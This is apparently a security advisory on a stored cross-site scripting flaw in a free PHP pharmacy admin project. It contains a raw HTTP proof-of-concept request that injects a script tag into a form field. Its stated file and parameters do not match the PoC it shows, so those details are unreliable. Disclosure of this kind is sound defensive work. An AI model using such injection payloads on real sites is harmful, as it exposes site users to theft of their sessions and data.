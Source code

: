#  Simple Admin Panel in PHP has Stored Cross Site Scripting vulnerability in editItemForm.php

## supplier 
https://code-projects.org/farmacia-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
editItemForm.php

## describe
In editItemForm.php. There are unrestricted stored cross site scripting attacks and injection attacks in the Simple Admin Panel. The controllable parameters are as follows: product_name and product_desc parameter. This function will execute the user parameter without restriction into the echo statement. Malicious attackers can exploit this vulnerability to obtain sensitive information from clients

**Code analysis**    

Querying data from the database and storing it in the $reg\[$cont\]\['nome'\], and the echo nome is not filtered, resulting in the execution of XSS statements.

![image-20241128083927477](https://github.com/user-attachments/assets/575b0ac7-8215-478c-99f8-b9a5bd11756c)



## POC

```
POST /adicionar-fornecedor.php HTTP/1.1
Host: farmacia
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------343575567911858812221258670237
Content-Length: 1452
Origin: http://farmacia
Connection: close
Referer: http://farmacia/adicionar-fornecedor.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------343575567911858812221258670237
Content-Disposition: form-data; name="nome"

<script>alert('xss');</script>
-----------------------------343575567911858812221258670237
Content-Disposition: form-data; name="cpf"

1
-----------------------------343575567911858812221258670237
Content-Disposition: form-data; name="inscricao"

1
-----------------------------343575567911858812221258670237
Content-Disposition: form-data; name="endereco"

1
-----------------------------343575567911858812221258670237
Content-Disposition: form-data; name="numero"

1
-----------------------------343575567911858812221258670237
Content-Disposition: form-data; name="bairro"

11
-----------------------------343575567911858812221258670237
Content-Disposition: form-data; name="cidade"

1
-----------------------------343575567911858812221258670237
Content-Disposition: form-data; name="cep"

1
-----------------------------343575567911858812221258670237
Content-Disposition: form-data; name="uf"

1
-----------------------------343575567911858812221258670237
Content-Disposition: form-data; name="telefone"

1
-----------------------------343575567911858812221258670237
Content-Disposition: form-data; name="email"

1@outlook.com
-----------------------------343575567911858812221258670237
Content-Disposition: form-data; name="acao"


-----------------------------343575567911858812221258670237--

```

![image-20241127093510427](https://github.com/user-attachments/assets/d301c25b-df2d-43c7-8de4-f4bb2f5fe0a3)

Visit this URL to trigger the cross-site scripting vulnerability.

```
http://farmacia/adicionar-produto.php
```

**Result**

![image-20241126221600209](https://github.com/user-attachments/assets/4ac05f98-aa5b-4e97-a50c-3c8ed574c663)
